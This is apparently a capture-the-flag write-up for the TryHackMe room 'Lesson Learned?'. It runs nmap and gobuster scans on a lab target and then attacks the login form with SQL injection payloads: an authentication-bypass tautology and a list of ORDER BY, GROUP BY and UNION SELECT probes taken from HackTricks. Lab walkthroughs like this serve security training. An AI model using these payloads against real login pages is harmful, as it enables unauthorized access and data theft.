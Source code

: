 # Lesson Learned?

**Room Link:** [https://tryhackme.com/room/lessonlearned](https://tryhackme.com/room/lessonlearned)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





**Browser**

<figure><img src="../../.gitbook/assets/image (290).png" alt=""><figcaption></figcaption></figure>

```
Username: 1' or '1'='1'-- -
Password: 1' or '1'='1'-- -
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Option #1&#x20;

Used this page to collect possible injections

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

**List**

```
1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+
1' ORDER BY 4--+
1' GROUP BY 1--+
1' GROUP BY 2--+
1' GROUP BY 3--+
1' GROUP BY 4--+
1' UNION SELECT null-- -
1' UNION SELECT null,null-- -
1' UNION SELECT null,null,null-- -
```

<figure><img src="../../.gitbook/assets/image (291).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (292).png" alt=""><figcaption></figcaption></figure>



Add list above as payload in position 1 and 2

<figure><img src="../../.gitbook/assets/image (293).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (294).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (295).png" alt=""><figcaption></figcaption></figure>

**Browser**

```
Username: 1' UNION SELECT null-- -
Password: 1' GROUP BY 2--+
```



<figure><img src="../../.gitbook/assets/image (289).png" alt=""><figcaption></figcaption></figure>









